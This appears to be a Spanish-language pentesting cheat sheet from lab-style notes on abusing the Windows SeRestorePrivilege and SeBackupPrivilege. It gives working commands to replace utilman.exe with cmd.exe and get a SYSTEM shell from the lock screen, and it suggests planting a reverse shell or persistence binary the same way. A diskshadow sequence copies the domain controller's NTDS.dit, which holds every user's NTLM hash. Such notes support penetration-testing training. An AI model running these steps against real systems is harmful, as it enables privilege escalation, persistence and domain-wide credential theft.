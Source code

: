 ## SeRestorePrivilege
1. Launch PowerShell/ISE with the SeRestore privilege present.
2. Enable the privilege with Enable-SeRestorePrivilege).
3. Rename utilman.exe to utilman.old
4. Rename cmd.exe to utilman.exe
5. Lock the console and press Win+U
- `Rename-Item -Path "C:\Windows\System32\utilman.exe" -NewName "utilman.old"`
- `ren cmd.exe Utilman.exe`
- Ahora podemos utilizar rdesktop para conectarnos a la maquina y ejecutar el cmd.exe con el privilegio SeRestorePrivilege.
    - `rdesktop IP`
    - WIN + U
        - `whoami => nt authority\system`
- También podemos reemplazar utilman por otra cosa, por ejemplo un reverse shell, o un binario que nos haga persistencia.


## SeBackupPrivilege
- Este privilegio permite la habilidad de leer cualquier archivo del sistema y realizar copias de seguridad de esos archivos.
- `Get-SeBackupPrivilege`
- Se puede intentar habilitar este privilegio usando [el siguieunte script](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1)

```powershell
PS C:\htb> Set-SeBackupPrivilege
PS C:\htb> Get-SeBackupPrivilege

SeBackupPrivilege is enabled
```

### Copiar un archivo protegido

- `PS C:\htb> Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt`
#### Atacando el DC, copiando NTDS.dit
- Este grupo también nos permite hacer cosas interesantes como tomar el NTSD.dit del DC y copiarlo en una maquina que no tenga permisos de administrador..
    - Este archivo contiene hashes NTLM de todos los usuarios bajo el dominio.
    - Podemos utilizar diskshadow para copiar el disco C y exponerlo como disco E.

```powershell
PS C:\htb> diskshadow.exe

Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC,  10/14/2020 12:57:52 AM

DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit

PS C:\htb> dir E:
```
